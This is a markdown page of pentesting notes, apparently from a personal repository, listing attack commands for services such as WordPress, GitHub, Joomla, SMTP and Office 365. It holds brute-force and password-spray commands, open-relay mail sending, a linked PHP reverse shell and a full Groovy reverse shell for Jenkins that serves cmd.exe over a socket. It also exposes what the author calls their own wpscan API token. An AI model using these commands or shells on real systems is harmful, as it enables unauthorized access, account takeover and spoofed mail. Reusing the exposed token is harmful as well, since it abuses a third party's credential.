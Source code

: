 ```yaml
---
layout: blank
pagetitle: Attacking Services
---
```



**The best methodology for pentesting services is to usually just search "Pentesting {service name}"**

[https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file](https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file)
- Scroll down for services scanning

Wordpress
- `wpscan --url {url} -e u,vp,vt --plugins-detection aggressive --api-token lT8xySbw7gMN4a2SoFlwpEXI8BzPdEyDn1GAcdaGKAE`
  - Yes this is my wpscan free account api token with a whopping 25 scans per day

Github
- Use `gato-x` to enumerate entire organizations
  - [https://github.com/AdnaneKhan/Gato-X](https://github.com/AdnaneKhan/Gato-X)
  - `gato-x enum --target {org_name}`
    - Requires a `GH_TOKEN` environment variable; just add `export GH_TOKEN="{token}"` to shell config file
- Use `noseyparker` to scan entire organizations for passwords
  - [https://github.com/praetorian-inc/noseyparker](https://github.com/praetorian-inc/noseyparker)
  - `noseyparker scan --github-org={org_name}`

Drupal
- `droopescan scan drupal -u {url}`

Joomla
- `droopescan scan joomla -u {url}`
- `sudo python3 joomla-brute.py -u {url} -w passwords.txt -usr {username}
    - [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)

Email
- [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
  - `smtp-user-enum -M {VRFY/RCPT/EXPN} -U {username_list} -D {domain} -t {ip}`
- [o365spray](https://github.com/0xZDH/o365spray)
  - `python3 o365spray.py --enum -U {username_list} --domain {domain}`
- Open relay (send emails from the server)
  - nmap's `--script smtp-open-relay` will check
  - To send an email: `swaks --from {from_email} --to {to_email} --header '{header}' --body '{body}' --server {ip}`

PHP
- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) - reverse shell (cross platform)

Jenkins
- Reverse shell:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```